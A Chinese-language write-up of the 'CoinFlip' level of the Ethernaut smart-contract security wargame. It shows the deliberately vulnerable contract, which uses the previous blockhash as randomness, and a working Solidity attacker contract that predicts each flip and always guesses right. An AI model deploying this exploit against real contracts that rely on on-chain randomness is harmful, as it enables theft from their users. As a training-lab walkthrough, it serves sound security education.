

<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令


:::

#### 第三关coinflip 思路与POC

##### 目标: 猜对10次flip函数得出的结果

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //核心逻辑:利用区块高度-1除以FACTOR得出随机数
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

#### 乍一看似乎没有问题,实际上纯粹使用链上数据生成的随机数就必然能够被恶意合约利用.

##### poc思路:game_die: :恶意合约只需要根据coinfilp合约生成随机数的核心逻辑复刻一份即可,只要两份合约部署在同一链上就能利用

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

//复制一份CoinFlip合约代码
import "./CoinFlip.sol";

contract hackFilp  {

   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
   //根据合约地址取得实例
   CoinFlip public filp =  CoinFlip(0x515f81b42E60D8ad5b15FbD43330A3b5bD3D8574);
 

  function hackFlip(bool _guess) public {
    
    // 需要hack合约上的随机数生成逻辑
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;

    bool side = coinFlip == 1 ? true : false;
     
     //扭转错误的猜测
    if (side == _guess) {
        filp.flip(_guess);
    } else {
   
        filp.flip(!_guess);
    }
}

}
```

